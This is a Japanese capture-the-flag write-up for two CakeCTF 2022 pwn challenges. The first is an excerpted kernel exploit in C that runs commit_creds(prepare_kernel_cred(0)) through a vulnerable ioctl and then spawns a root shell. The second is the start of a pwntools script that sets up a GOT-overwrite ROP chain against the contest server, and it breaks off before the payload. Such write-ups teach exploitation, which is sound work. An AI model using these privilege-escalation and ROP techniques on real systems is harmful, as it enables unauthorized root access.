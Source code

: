 ### welkerme
ついにwarmupにカーネル問が
と思ったが本当に初歩的な問題で丁寧な誘導もあるので全然warmup向きの問題。

exploit.c(抜粋)
```c
static void priv_escalation() {
	char* (*pkc)(int) = prepare_kernel_cred;
	void (*cc)(char*) = commit_creds;
	(*cc)((*pkc)(0));
}

int main(){
	int fd = open("/dev/welkerme", O_RDWR);
	if( fd < 0){
		err_exit("fuck");
	}
	ioctl(fd, CMD_EXEC, priv_escalation);
	system("/bin/sh");
	return 0;
}
```
### smal arey
AAWとstack領域を割と自由に書き換えれるので
exit@gotをpopx3_retみたいなgadgetにすると
いい感じにropに持ち込める

```python
#!/usr/bin/python3
from pwn import *
import sys

#import kmpwn
sys.path.append('/home/vagrant/kmpwn')
from kmpwn import *
# fsb(width, offset, data, padding, roop)
# sop()
# fake_file()

#config
context(os='linux', arch='i386')
context.log_level = 'debug'

FILE_NAME = "./chall"
#"""
HOST = "pwn1.2022.cakectf.com"
PORT = 9002 
"""
HOST = "localhost"
PORT = 7777
#"""

if len(sys.argv) > 1 and sys.argv[1] == 'r':
	conn = remote(HOST, PORT)
else:
	conn = process(FILE_NAME)

elf = ELF(FILE_NAME)
got_exit = elf.got["exit"]
got_setbuf = elf.got["setbuf"]
plt_printf = elf.plt["printf"]
addr_start = elf.symbols["_start"]
rdi_ret = 0x004013e3
pop3_ret = 0x004013de
```